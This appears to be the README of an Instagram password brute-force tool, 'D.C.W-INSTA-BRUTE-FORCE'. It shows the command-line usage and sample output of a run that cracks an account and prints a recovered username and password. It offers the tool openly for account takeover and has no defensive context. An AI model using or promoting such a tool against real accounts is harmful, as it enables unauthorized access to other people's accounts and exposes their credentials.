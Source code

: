 # D.C.W-INSTA-BRUTE-FORCE
Brute Force Attack
positional arguments:

  username              email or username

  wordlist              password list



python3 instagram.py <username> <wordlist> -m3 <mode>



### Run



```

[-] Wordlist: pass.lst

[-] Username: Sami09.1

[-] Password: 272

[-] Complete: 45.51%

[-] Attempts: 228

[-] Browsers: 273

[-] Exists: True

```



### Stop



```

[-] Wordlist: pass.lst

[-] Username: Sami09.1

[-] Password: Sami123

[-] Complete: 62.67%

[-] Attempts: 314

[-] Browsers: 185

[-] Exists: True



[!] Password Found

[+] Username: Sami09.1

[+] Password: Sami123
